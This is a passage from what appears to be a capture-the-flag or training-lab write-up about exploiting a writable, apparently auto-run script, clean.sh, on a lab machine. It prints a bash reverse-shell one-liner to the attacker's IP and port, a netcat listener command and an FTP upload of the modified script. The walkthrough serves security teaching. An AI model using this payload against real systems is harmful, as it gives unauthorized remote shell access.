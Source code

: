 
## Reverse Shell via Writable Script

Since `clean.sh` was writable and likely auto-executed, I weaponized it by inserting a reverse shell payload targeting my attack machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.79.36/7777 0>&1
```

<img src="/assets/images/tcm-academy/anonymous/anonymous-06.png">

I started a Netcat listener and re-uploaded my modified script:

```bash
nc -nlvp 7777
ftp> put clean.sh
```

<img src="/assets/images/tcm-academy/anonymous/anonymous-07.png">  
<img src="/assets/images/tcm-academy/anonymous/anonymous-08.png">
